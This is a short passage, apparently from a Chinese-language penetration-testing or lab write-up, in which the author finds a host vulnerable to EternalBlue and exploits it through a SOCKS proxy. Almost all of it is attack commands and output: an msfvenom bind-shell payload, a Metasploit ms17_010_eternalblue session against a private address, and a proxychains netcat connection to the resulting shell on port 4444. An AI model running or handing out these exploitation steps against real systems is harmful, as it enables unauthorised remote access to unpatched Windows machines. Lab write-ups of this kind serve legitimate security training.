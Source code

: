 ![](assets/img/attachments/QQ_1754535434315.png)  

存在永恒之蓝，试了一下只能正向连接  
```bash
# 生成马
msfvenom -p windows/x64/shell_bind_tcp LPORT=4444 -f raw -o shellcode.bin

#使用正向连接加代理  

msf6 > setg Proxies socks5:192.168.36.1:11086
Proxies => socks5:192.168.36.1:11086
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.99.112
RHOSTS => 192.168.99.112
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/shell_bind_tcp
PAYLOAD => windows/x64/shell_bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 

# 代理NC监听  
┌──(kali㉿kali)-[~/ls]
└─$ proxychains4 nc 192.168.99.112 4444 
```
